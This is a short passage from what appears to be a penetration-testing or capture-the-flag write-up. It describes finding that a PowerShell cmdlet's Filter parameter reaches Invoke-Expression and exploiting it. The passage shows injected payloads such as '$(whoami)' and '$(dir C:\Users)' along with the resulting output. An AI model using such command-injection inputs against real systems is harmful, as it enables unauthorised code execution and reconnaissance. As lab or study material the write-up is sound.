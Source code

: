 - We can use Invoke-Expression through this command

**<u>Powershell command injection:</u>**

- Trying different combinations

![image55](../resources/550af2959cae40b6b73bd88d0ebcabe7.png)

- We can parse the single quote but not the double quote

- Running whoami:

```bash
Get-ServicesApplication -Filter '$(whoami)'

```
*winrm virtual users\winrm va_2_ec2amaz-a6s61fr_safeuserhelpdesk*

- Find users:

```bash
Get-ServicesApplication -Filter '$(dir C:\Users)'

```
